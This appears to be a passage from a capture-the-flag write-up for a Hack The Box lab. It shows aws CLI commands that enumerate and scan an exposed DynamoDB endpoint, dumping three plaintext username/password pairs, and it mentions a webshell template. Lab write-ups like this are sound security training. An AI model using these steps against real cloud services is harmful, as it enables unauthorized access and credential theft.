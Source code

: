	`aws dynamodb list-tables --endpoint-url http://s3.bucket.htb/ | jq -r .`

	  {
    	  "TableNames": [
    	  "users"
    	  ]
	  }

- **Second**, scan `users` table, [template](awsApiTmpl/scan-tmpl.js) for webshell

	`aws dynamodb scan --table-name users --endpoint-url http://s3.bucket.htb/ | jq -r .`

		{
		    "Count": 3,
		    "Items": [
			{
			    "username": {
			    "S": "Mgmt"
			    },
				"password": {
				"S": "Management@#1@#"
			    }
			},
			{
				"username": {
				"S": "Cloudadm"
				},
				"password": {
				"S": "Welcome123!"
			    }
			},
			{
				"username": {
				"S": "Sysadm"
			    },
				"password": {
				"S": "n2vM-<_K_Q:.Aa2"
				}
			}
		    ],
		    "ScannedCount": 3,
		    "ConsumedCapacity": null
                }

#### creds
```bash
Mgmt:Management@#1@#
Cloudadm:Welcome123!
Sysadm:n2vM-<_K_Q:.Aa2
```

### Enumerating through awscli

- investing some time in awscli tool i found that i can list all buckets
